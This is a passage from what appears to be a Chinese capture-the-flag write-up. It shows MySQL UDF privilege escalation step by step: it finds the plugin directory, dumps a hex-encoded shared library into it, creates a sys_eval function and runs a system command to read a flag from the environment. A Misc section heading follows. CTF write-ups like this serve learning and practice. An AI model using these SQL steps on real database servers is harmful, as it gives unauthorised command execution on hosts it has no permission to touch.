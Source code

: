然后执行 sql 语句进行 udf 提权

```plain
select @@basedir
# 得到 plugin 路径/usr/lib/mysql/p1ugin
select unhex('xxx')into dumpfile '//usr/lib/mysql/p1ugin/udf.so';
create function sys_eval returns string soname 'udf.so';
select sys_eval("env");
```

flag 在环境变量里

[![](assets/1706958186-ace3675e895988cfd605b0bb6c0cc142.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131153028-9b9a9e20-c00a-1.png)

## Misc

### 2024 签到题
